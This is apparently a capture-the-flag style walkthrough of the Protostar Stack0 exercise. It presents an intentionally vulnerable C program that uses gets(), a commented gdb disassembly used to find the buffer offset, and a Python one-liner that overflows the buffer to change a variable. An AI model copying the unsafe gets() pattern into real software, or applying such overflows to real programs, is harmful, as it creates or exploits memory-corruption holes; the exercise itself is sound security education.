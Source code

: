 # Protostar :: Stack0

Here is the code for this particular exercise.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

The solution is pretty simple, first we need to find the offset between
the start of `buffer`, and the `modified` variable. We can then set the 
`modified` variable to anything but `0` in order to get the program to
execute the way we want. Let's start by finding this offset. Note that I've
included some comments in the disassembly to make better sense of it.
```bash
$ gdb stack0
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60

# modified = 0
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0

# gets(buffer)
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>

# if (modified != 0)
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>

# if modified == 0
# printf("Try again?\n");
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>

# if modified != 0
# printf("you have changed the 'modified' variable\n");
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>

0x08048433 <main+63>:   leave  
0x08048434 <main+64>:   ret    
End of assembler dump.
```

So we can see that the `modified` variable is located at `$esp + 0x5c` and the
`buffer` variable is located at `$esp + 0x1c`. So the offset should be
`0x5c - 0x1c`, or 64 (unsurprisingly the length of the buffer). Therefore we
need to write 64 bytes of data to fill up the buffer, plus an extra byte to
write into the contents of the `modified` variable.
```bash
$ python -c 'print "A" * 64 + "B"' | ./stack0
you have changed the 'modified' variable
```

